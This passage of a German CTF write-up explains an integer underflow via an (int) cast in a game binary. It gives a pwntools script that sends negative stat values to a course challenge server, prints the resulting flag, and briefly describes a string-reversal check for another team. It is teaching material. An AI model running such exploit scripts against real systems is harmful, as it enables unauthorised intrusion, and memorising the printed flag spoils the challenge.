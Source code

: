 ```c 
      system("clear");
      if ((int)player_hp < 1) {
        printGameOver();
                    /* WARNING: Subroutine does not return */
        exit(0);
      }
    }
    turn = turn + 1;
  } while( true );
}
```
Das aktiviert eine Unterscheidung, der Code ist nahezu identisch bis auf das (int)-Cast. Dadurch kann man eine negative Zahl eingeben bei der Statverteilung und somit 5k HP und 1k DMG bekommen (integer underflow durch den Cast). Der Rest spielt sich von alleine, man gewinnt das Spiel und erhält die Flag. Super cute gemacht. Unten ist ein Script, was das ganze automatisiert. Weitere Erklärungen werden für nicht notwendig befunden, da keine weiteren Exploits angewandt werden.
```python
from pwn import *
 
pty = process.PTY
# p = process("./team_03", stdin=pty, stdout=pty)
p = remote("tank.informatik.hs-mannheim.de", 3103)
# context.log_level = 'debug'
 
p.sendlineafter(b": ", b"AAAAAAAAAAcheat")
p.sendlineafter(b": ", b"Sternenstaubdrache")
 
p.sendlineafter(b"): ", b"1")
p.sendlineafter(b": ", b"-1")
p.sendlineafter(b"): ", b"2")
p.sendlineafter(b": ", b"-1")
p.sendlineafter(b"): ", b"3")
 
# p.recvuntil("FLAG{")
flag = p.recvall().decode()
 
print(flag)


## Flag
FLAG{dr4g0n_sl4y3r}
```
#  Team 04

Der Code ist zu lange .deswegen werden wir es nicht hinzufügen.
Es gibt jedoch eine Funktion namens "shuffle" in der Hauptmethode, die das erste Zeichen eines Strings durch das letzte ersetzt (und dann tauscht), das zweite durch das vorletzte usw.

Wenn wir diesen Vorgang manuell auf die angegebenen Hexadezimalwerte anwenden, erhalten wir nicht die Flagge, sondern stattdessen:
I_know_Y0U_C4nt_Crack_it wird zu ti_kcarC_tn4C_U0Y_wonk_I
